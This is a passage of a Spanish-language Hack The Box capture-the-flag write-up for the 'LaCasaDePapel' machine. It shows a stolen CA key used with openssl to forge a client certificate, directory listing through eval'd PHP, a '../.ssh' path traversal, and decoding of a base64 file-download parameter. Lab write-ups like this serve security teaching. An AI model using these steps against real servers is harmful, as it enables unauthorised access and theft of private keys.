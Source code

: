 Nos copiamos esa `ca.key` para utilizarla mas adelante. Tambien podemos ver que hay ciertos archivos
```bash
scandir("/home/berlin/downloads");
=> [ ".", "..", "SEASON-1", "SEASON-2", "Select a season", ]

scandir("/home/berlin/downloads/SEASON-1");
=> [".", "..", "01.avi", "02.avi", "03.avi", "04.avi",... 

scandir("/home/berlin/.ssh");
PHP Warning:  scandir(/home/berlin/.ssh): failed to open dir: Permission denied in phar://eval()'d code on line 1
```

Tenemos la `ca.key`, pero necesitamos un archivo `.pem` de tipo `x509` válido... ¿De dónde lo sacamos? Del propio certificado
```bash
$: openssl s_client --connect lacasadepapel.htb:443
...
Server certificate
-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
...
```
Creamos así el certificado `pkcs12`
```
$: openssl pkcs12 -export -in cert.pem -inkey ca.key -out hackthebox.pkcs12
Enter Export Password:
Verifying - Enter Export Password:
```

Si importamos tanto la `ca.key` como el certificado `hackthebox.pkcs12`, podemos acceder a la web del puerto 443.
![](/assets/images/htb-casapapel/la_casa_de_papel4.png)
![](/assets/images/htb-casapapel/la_casa_de_papel5.png)
![](/assets/images/htb-casapapel/la_casa_de_papel6.png)

Esta nos muestra una serie de archivos, los capitulos de las dos temporadas en video (vacíos obviamnete, pero la máquina parece imitar 
entonces un portal pirata). 
![](/assets/images/htb-casapapel/la_casa_de_papel7.png)

- Tenemos el parámetro `?path=SEASON-1`, que lista directorios, sabemos que la ruta completa es `/home/berlin/downloads/SEASON-1`, tambien que este usuario tiene una llave privada a la que no podíamos acceder. Pero el parametro es para directorios solo, no archivos, 
![](/assets/images/htb-casapapel/la_casa_de_papel8.png)

Si ponemos `../.ssh` salen los archivos, pero no podemos descargarlos
![](/assets/images/htb-casapapel/la_casa_de_papel9.png)
- Al descargar los archivos de video, vemos que hace una petición `GET` a `/file` mas una cadena de caracteres que parece base64, en efecto, así es
![](/assets/images/htb-casapapel/la_casa_de_papel10.png)
```bash
$: echo "U0VBU09OLTEvMDIuYXZp" | base64 -d
SEASON-1/02.avi
```

